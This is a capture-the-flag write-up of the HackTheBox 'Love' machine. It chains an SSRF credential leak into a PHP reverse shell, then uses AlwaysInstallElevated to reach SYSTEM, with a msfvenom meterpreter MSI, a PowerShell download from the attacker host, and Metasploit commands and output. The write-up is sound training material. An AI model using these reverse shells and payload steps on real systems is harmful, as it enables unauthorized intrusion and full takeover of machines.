





# Love - HackTheBox
Windows, 30 Base Points, Easy

## Machine


### TL;DR;

To solve this machine, we begin by enumerating open ports using ```namp```.

***User***: From ```nmap``` scanning, we found another domain ```staging.love.htb``` which lead us to page with SSRF vulnerability, From that we got credentials to [http://love.htb/admin](http://love.htb/admin) page which allow us to upload php reverse shell to get the user flag as ```phoebe```.
 

***Root***: Use [AlwaysInstallElevated Policy](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/) privilege to install MSI package, which is can be installed with elevated privileges for non-admin users, Then use ```always_install_elevated ``` metasploit post exploitation module to get ```nt authority\system```.

## Love Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Love]
└──╼ $ nmap -sC -sV -oA nmap/Love 10.10.10.239
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-07 16:07 IDT
Nmap scan report for 10.10.10.239
Host is up (0.092s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   Help: 
|_    Host '10.10.14.23' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.80%I=7%D=5/7%Time=60953B94%P=x86_64-pc-linux-gnu%r(Hel
SF:p,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.23'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h45m28s, deviation: 4h02m30s, median: 25m27s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-07T06:33:06-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-07T13:33:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.68 seconds


```

By obeserving port 80 we can see:


From ```nmap``` scan we can see the following domain: ```staging.love.htb```, Let's try to add this domain to ```/etc/hosts``` and browse it at [http://staging.love.htb](http://staging.love.htb):


By clicking on Demo button (From top menu) we can see the following page:



It's mean the website can scan for us another URL's.

We can use [SSRF](https://portswigger.net/web-security/ssrf) to access to another web pages we don't have access.

```nmap``` scanning showing also port 5000:
```console
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.80%I=7%D=5/7%Time=60953B94%P=x86_64-pc-linux-gnu%r(Hel
SF:p,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.23'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let's try to access [http://localhost:5000](http://localhost:5000) using Demo:



And as we can see we get creds: ```admin:@LoveIsInTheAir!!!! ```

By enumerate the host ```love.htb``` using ```gobuser``` we found the page [http://love.htb/admin](http://love.htb/admin):



By logged in with the creds above we logged in as admin:



By browsing to Candidates (Left menu) page we can the "New" button:



Let's upload php reverse shell as photo (was created by [https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)).

Listen to port 5555 to get reverse shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Love]
└──╼ $ nc -lvp 5555
listening on [any] 5555 ...
```

Click on "Save" and we pop shell:
```console
connect to [10.10.14.14] from staging.love.htb [10.10.10.239] 49987
SOCKET: Shell has connected! PID: 1300
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\>type C:\Users\Phoebe\Desktop\user.txt
b484f1446644ce5b6abad2c8977e801a
```

And we get user flag ```b484f1446644ce5b6abad2c8977e801a```.

### Root

By running [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) we can see the following:
```console
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] AlwaysInstallElevated? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] If '1' then you can install a .msi file with admin privileges ;)
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```AlwaysInstallElevated``` Policy
As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by MSI packages for the installation of applications. These MSI packages can be installed with elevated privileges for non-admin users

For this purpose, the ```AlwaysInstallElevated``` policy feature is used to install an MSI package file with elevated (system) privileges. This policy is enabled in the Local Group Policy editor; directs the Windows Installer engine to use elevated permissions when it installs any program on the system. This method can make a machine vulnerable posing a high-security risk because a non-administrator user can run installations with elevated privileges and access many secure locations on the computer.

By using the following article [https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/) we can do the following steps to get root:

1. Get meterpreter shell using the following ```msfvenom``` command:
```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=1111 -f msi-nouac -o alwe.msi
```

Upload it with our shell using powershell:
```console
c:\>powershell
PS C:\> (New-Object Net.WebClient).DownloadFile("http://10.10.14.14:8000/alwe.msi","c:\Users\Phoebe\Downloads\alwe.msi");
```

Create handle using ```metasploit```:
```console
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > set LPORT 1111
LPORT => 1111
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.14:1111 
```

Run the uploaded msi before as follow:
```console
PS C:\Users\Phoebe\Downloads> msiexec /quiet /qn /i alwe.msi
```

And we pop meterpreter shell:
```
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.14:1111 -> 10.10.10.239:50046) at 2021-05-08 02:30:58 +0300

meterpreter > 
```

2. Use ```always_install_elevated``` post exploitiation:
```console
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > use exploit/windows/local/always_install_elevated
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/always_install_elevated) > set session 2
session => 2
msf6 exploit(windows/local/always_install_elevated) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(windows/local/always_install_elevated) > exploit
[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] Uploading the MSI to C:\Users\Phoebe\AppData\Local\Temp\QMkgOupD.msi ...
[*] Executing MSI...
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 3 opened (10.10.14.14:4444 -> 10.10.10.239:50050) at 2021-05-08 02:33:25 +0300

meterpreter > shell
Process 760 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

And we get ```nt authority\system```.

And we can get the root flag ```35a436ab92503cfe670df325ea7a020d```:
```
C:\WINDOWS\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
35a436ab92503cfe670df325ea7a020d
```